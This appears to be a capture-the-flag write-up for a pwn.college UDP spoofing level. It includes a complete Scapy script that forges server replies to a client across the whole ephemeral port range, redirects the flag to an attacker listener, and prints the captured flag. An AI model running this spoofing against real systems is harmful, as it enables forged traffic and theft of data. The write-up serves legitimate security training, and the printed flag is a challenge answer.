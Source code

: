 # 🛰️ UDP Spoofing 3 – Writeup (pwn.college)

## 📌 Challenge Summary

> In this level, spoofing becomes trickier: the source port used by the client is **no longer fixed**. This mimics real-world DNS vulnerabilities, where attackers exploited predictable port values to forge responses. The patch? Randomizing ports. Your goal is to **guess the correct source port** and **trick the client into thinking a spoofed server replied with a flag**.

---

## 🧠 Understanding the Setup

There are 3 main entities:

- `Server (10.0.0.3)` → Listens on UDP port `31337`
- `Client (10.0.0.2)` → Sends to server, receives a response, and may relay a flag to another host
- `You (Attacker @ 10.0.0.1)` → Want to **spoof a server** response and steal the flag

**Key part:**
- The client **randomizes** the port it uses to contact the server (just like secure DNS today).
- The spoofed server reply must be sent **to the correct ephemeral source port**.
- If successful, the client reads the spoofed message (e.g., `FLAG:10.0.0.1:12345`) and sends the real flag to the attacker's IP.

---

## 🔍 How We Exploit It

### 🔒 Challenge:
You don’t know the client’s source port. But it is:
- In the **ephemeral port range**, typically `49152–65535`
- Fixed **per socket**, so if you spoof enough ports, you’ll eventually hit the right one

---

## 🧪 Attack Plan

1. **Sniff** incoming UDP packets to attacker port (`12345`)
2. **Send forged responses** to `10.0.0.2` (the client) spoofed as `10.0.0.3` (the server)
3. **Cycle through all possible ports (49152–65535)** as the destination (i.e., client’s source)
4. Once you hit the right port → client sends the real flag to your listener

---

## 💣 Final Exploit – `new_spoof.py`

```python
from scapy.all import send, sniff, IP, UDP
import threading
import sys

attacker_ip = '10.0.0.1'
attacker_port = 12345
target_ip = '10.0.0.2'
spoofed_src_ip = '10.0.0.3'

found_flag = False

def udp_req():
    global found_flag
    print("[*] Starting to send spoofed responses...")
    for i in range(49152, 65536):
        if found_flag:
            break
        pkt = IP(dst=target_ip, src=spoofed_src_ip)/UDP(dport=i, sport=31337)
        payload = f'FLAG:{attacker_ip}:{attacker_port}'
        send(pkt/payload, verbose=False)
    print("[*] Finished sending spoofed packets.")

def sniffer():
    global found_flag

    def handle(pkt):
        global found_flag
        if pkt.haslayer(UDP) and pkt[UDP].dport == attacker_port:
            print("[*] Flag captured!")
            print(f"Data: {bytes(pkt[UDP].payload)}")
            pkt.show()
            found_flag = True
            sys.exit(0)

    print("[*] Sniffing for incoming flag response...")
    sniff(filter=f"udp and port {attacker_port}", prn=handle)

if __name__ == "__main__":
    t = threading.Thread(target=sniffer)
    t.daemon = True
    t.start()
    udp_req()
    t.join()
```

### Output
```bash
[*] Sniffing for incoming flag response...
[*] Starting to send spoofed responses...
[*] Flag captured!
Data: b'pwn.college{gGcSubLJQ-zf9ij0zlp1LQOwXsf.0lN0AjNxwSM0IzMyEzW}\n'
...
[*] Finished sending spoofed packets.
```

---

## Flag

```
pwn.college{gGcSubLJQ-zf9ij0zlp1LQOwXsf.0lN0AjNxwSM0IzMyEzW}
```
---
